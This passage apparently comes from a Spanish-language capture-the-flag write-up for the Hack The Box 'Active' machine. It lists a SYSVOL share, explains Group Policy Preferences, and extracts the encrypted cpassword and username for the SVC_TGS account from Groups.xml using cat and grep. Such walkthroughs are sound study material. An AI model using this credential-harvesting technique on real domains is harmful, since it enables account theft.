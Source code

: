```bash
    │   │   │   │   └── Groups
    │   │   │   │       └── Groups.xml
    │   │   │   └── Registry.pol
    │   │   └── USER
    │   └── {6AC1786C-016F-11D2-945F-00C04fB984F9}
    │       ├── GPT.INI
    │       ├── MACHINE
    │       │   └── Microsoft
    │       │       └── Windows NT
    │       │           └── SecEdit
    │       │               └── GptTmpl.inf
    │       └── USER
    └── scripts

22 directories, 7 files
```

Dentro de lo observamos, tenemos un recurso interesante en el cual podríamos encontrar credenciales `Groups.xml` asociado al SYSVOL. SYSVOL es el recurso compartido de todo el dominio en Active Directory al que todos los usuarios autenticados tienen acceso de lectura. SYSVOL contiene scripts de inicio de sesión, datos de políticas de grupo y otros datos de todo el dominio que deben estar disponibles en cualquier lugar donde haya un controlador de dominio (ya que SYSVOL se sincroniza y comparte automáticamente entre todos los controladores de dominio). Para mayor información, podríamos consultar el siguiente recurso: [adsecurity](https://adsecurity.org/?p=2288).

Vamos a tratar de visualizar el contenido de dicho archivo:

```bash
❯ cat active.htb/Policies/\{31B2F340-016D-11D2-945F-00C04FB984F9\}/MACHINE/Preferences/Groups/Groups.xml
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?xml version="1.0" encoding="utf-8"?>
   2   │ <Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active
       │ .htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U
       │ " newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8
       │ pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
   3   │ </Groups>
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Vamos a filtrar por la información que nos interesa, que es el campo `cpassword` y `userName`:

```bash
❯ cat active.htb/Policies/\{31B2F340-016D-11D2-945F-00C04FB984F9\}/MACHINE/Preferences/Groups/Groups.xml | grep -o 'cpassword="[^"]\+"\|userName="[^"]\+"'
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
userName="active.htb\SVC_TGS"
```

